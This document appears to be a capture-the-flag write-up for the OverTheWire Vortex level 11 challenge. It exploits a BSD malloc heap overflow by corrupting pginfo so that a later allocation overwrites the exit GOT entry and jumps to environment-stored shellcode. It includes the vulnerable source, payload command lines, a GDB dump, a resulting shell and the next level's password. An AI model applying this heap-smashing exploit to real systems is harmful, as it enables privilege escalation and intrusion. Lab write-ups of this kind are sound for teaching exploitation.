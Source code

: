 
we must find a way to overwrite the pointer s to the return address, then redirect to a payload.  
do do so, we must find a way to corrupt the heap so that s will be pointed to the return addres memory, let's dig in the malloc code:  
we discover that malloc() uses imalloc(), which uses malloc_bytes() in the event of a small allocation (0xf is small)  
we find our answer in here: http://www.ouah.org/BSD-heap-smashing.txt  

with not much knowledge, we can see that the mallocs in this vortex11.c is shaped exactly as in the POC 1 in the link, so we want to overwrite the pginfo struct of the second page (description below):
```c
#include <stdio.h>
#include <string.h>


int main(int argc, char **argv) {
        char *p;
        char *q;
        char *r;
        char *s;
        if (argc < 3)					//must include 2 args...
        {
                exit(0);
        }
        p = (char *) malloc(0x800);		//first page part1 (half page)
        q = (char *) malloc(0x10);		//second page part1 (tiny page)
        r = (char *) malloc(0x800);		//first page part2 (half page) - overflow this segment to overwrite pginfo
        strcpy(r , argv[1]);			//overflow
        s = (char *) malloc(0x10);		//allocate according to corrupt pginfo --> should point to ret addr
        strncpy(s , argv[2], 0xf);		//overwrite the return addr with desired payload addr - let's say env variable
        exit(0);
}
```
  
preparing payloads: ./vortex11 $(python -c 'print "A"*0x800+"BBBB"+"CCCC"') $(python -c 'print "ADDR"')  
need to replace CCCC with ret addr, ADDR with payload addr...  
verifing that it works:
```bash
(gdb) info reg
eax            0x43434383       1128481667
ecx            0x0      0
edx            0x43434343       1128481603
ebx            0xf7fcd000       -134426624
esp            0xffffcee0       0xffffcee0
ebp            0xffffcf08       0xffffcf08
esi            0x0      0
edi            0x0      0
eip            0x8049e43        0x8049e43 <main+111>
eflags         0x246    [ PF ZF IF ]
cs             0x23     35
ss             0x2b     43
ds             0x2b     43
es             0x2b     43
fs             0x0      0
gs             0x63     99
```
I chose to overwrite exit@plt.got table entry, which is located in: 0x804c008 (-0x40) = 0x0804bfc8  
$EGG = <payload>  
figuring out the address of envp via a simple c code we get: ffffe91f : EGG=��������������������������������������������������1�Ph//shh/bin��PS��1�1ɰ  
finally, after some trial and error:  
/vortex/vortex11 $(python -c 'print "A"*0x800+"BBBB"+"\xc7\xbf\x04\x08"') $(python -c 'print "x\05\xd9\xff\xff"')  

```bash
$ whoami
vortex12
$ cat /vortex_pass/vortex12
cat: /vortex_pass/vortex12: No such file or directory
$ cat /etc/vortex_pass/vortex12
nKV95q]dx
$ exit
```
password: nKV95q]dx


